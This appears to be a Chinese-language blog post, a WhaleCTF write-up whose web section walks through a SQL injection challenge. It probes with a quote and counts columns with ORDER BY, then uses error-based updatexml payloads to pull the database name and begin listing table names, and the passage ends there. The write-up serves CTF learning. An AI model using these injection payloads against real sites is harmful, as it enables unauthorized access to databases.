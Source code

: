 ```yaml
---
layout: post
title: WhaleCTF WriteUp
date: 2018-2-5
author: Qiqi
header-img: img/images-1.jpg
catalog: true
tag:
   - write up
   - CTF
---
```


# WhaleCTF WriteUp

## Web

### SQL注入

首先，我们输入1，返回正常页面

然后我们在输入1'，报错

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```

可以看出，这题我们不需要去闭合引号啥的

接着，我们利用order by语句，查询列数

```sql
1 order by 1
```

最终得到一共有4列

接着进入正题，我们这里使用xmlupdate的报错注入

**1. 查询数据库名**

```sql
1 and updatexml(1,concat(0x7e,(mid((select database()),1,31))),1)
```

提交，成功得到数据库名

```sql
XPATH syntax error: '~sqli'
```

**2. 查询表名**

```sql
1 and updatexml(1,concat(0x7e,(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,31))),1)
```
